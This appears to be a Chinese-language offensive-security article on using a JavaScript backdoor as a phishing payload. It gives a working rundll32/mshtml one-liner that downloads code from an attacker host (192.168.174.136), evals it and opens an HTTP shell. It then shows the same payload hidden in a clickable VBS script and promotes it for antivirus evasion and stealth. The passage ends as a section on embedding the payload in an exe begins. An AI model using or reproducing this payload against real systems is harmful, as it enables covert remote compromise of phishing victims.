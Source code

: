 # JavaScript Phishing

0x00 前言
=====

前段时间分享了JavaScript Backdoor技术，着重对其功能的开发、Bug的优化做了介绍，这次研究一下JavaScript Backdoor在实际渗透测试中的利用方法。

![Alt text](http://drops.javaweb.org/uploads/images/03b46fd05d9f111a3a4bffa00426d96d3d654789.jpg)

0x01 简介
=====

**特点：**

通过cmd执行代码即可弹回shell

**优势：**

*   免杀
*   简便
*   较隐蔽

**利用思路：**

综合其优势特点，JavaScript作为Phishing Payload有着意想不到的效果，下面就结合相关漏洞做简要介绍

0x02 隐藏在vbs中
=====

最简便的方法，将JavaScript的上线代码写到vbs中

原始的JavaScript 上线代码：

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://192.168.174.136/connect",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}

```

对应vbs中的代码（注意转义字符）：

```
set shell=createobject("wscript.shell")
shell.run "rundll32.exe javascript:""\..\mshtml,RunHTMLApplication "";document.write();h=new%20ActiveXObject(""WinHttp.WinHttpRequest.5.1"");h.Open(""GET"",""http://192.168.174.136/connect"",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e){new%20ActiveXObject(""WScript.Shell"").Run(""cmd /c taskkill /f /im rundll32.exe"",0,true);}",0

```

点击vbs脚本，即可弹回HTTP shell

0x03 隐藏在exe中
=====

**开发工具：**`VC6.0`
